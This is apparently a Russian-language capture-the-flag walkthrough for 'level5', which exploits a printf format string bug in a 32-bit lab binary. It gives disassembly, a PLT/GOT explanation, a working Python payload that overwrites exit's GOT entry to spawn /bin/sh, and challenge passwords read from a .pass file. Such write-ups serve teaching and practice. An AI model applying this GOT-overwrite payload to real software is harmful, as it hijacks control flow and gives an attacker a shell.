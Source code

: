 # su level5
# pass: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

====
Уязвимость: printf, (Format String Attack), plt, запись в GOT, подмена ссылки функции на необходимую
====

**Поведение: ждёт ввод, возвращает эту же строку. Переполнить не получилось.**

# ltrace ./level5 
   __libc_start_main(0x8048504, 1, 0xbffff804, 0x8048520, 0x8048590 <unfinished ...>
   fgets(12345
   "12345\n", 512, 0xb7fd1ac0)                                              = 0xbffff550
   printf("12345\n"12345
   )                                                              = 6
   exit(1 <unfinished ...>
   +++ exited (status 1) +++

Проверяем функции, переменные: 

# i func
<>
0x080484a4  o
0x080484c2  n
0x08048504  main
<>

# i var
<>
0x08049854  m

# x/a 0x08049854
0x8049854 <m>:  0x0

В мейне вызывается n

# disas main

Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret    
End of assembler dump.

В n пользовательский ввод через fgets, а потом printf. 

# disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp                  536
   0x080484cb <+9>:     mov    0x8049848,%eax               stdin
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)             512
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax            -520
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax            512
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)                  1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.

В функции o вызов system "/bin/sh"

# disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp                   24
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)            "/bin/sh"
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.

Вызова функции о нигде нет. Получается, нам через printf нужно записать адрес функции и вызвать его. 
При компиляции происходит динамическое подключение библиотеки. Отметка plt говорит о том, что используется таблица компоновки процедур. Тогда функция не вызывается напрямую, а вместо этого управление передается заглушке фунции, которая находится в таблице PLT (указано с помощью @PLT). Однако сама таблица PLT модифицироваться не должна, и ее можно поместить в сегмент, в котором разрешено только чтение. 
Для изменения используется Global Offset Table - глобальная таблица смещений. Модифицироваться может только таблица GOT, причем размер записи в ней равен 4 байта. (Как только динамический компоновщик определит адрес функции, он прежде, чем переходить к найденной функции, сохраняет результат в записи GOT, которая была использована в инструкции jmp в начале записи PLT. В результате во всех следующих обращениях к записи PLT переход к динамическому компоновщику происходить не будет, а вместо этого будет выполняться переход напрямую в функцию.)

Так как в функции написан exit, по завершению она будет выходить и не доходить до адреса возврата. Тогда можно попробовать перезаписать адрес exit из функции n на вызов o. 

# python -c 'print "AAAA" + " %p" * 6' > /tmp/l5

# cat /tmp/l5 | ./level5 
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025

exit на 4 позиции. адрес о = 0x080484a4

# disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.

Указатель на адрес exit = *0x8049838
x/a 0x8049838

C помощью %d обозначим число адрес 0x080484a4 в десятичной системе - записываем по этой позиции через %n 134513824 + 4 байта для адреса.

# python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/l5 

# cat /tmp/l5 - | ./level5

# cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
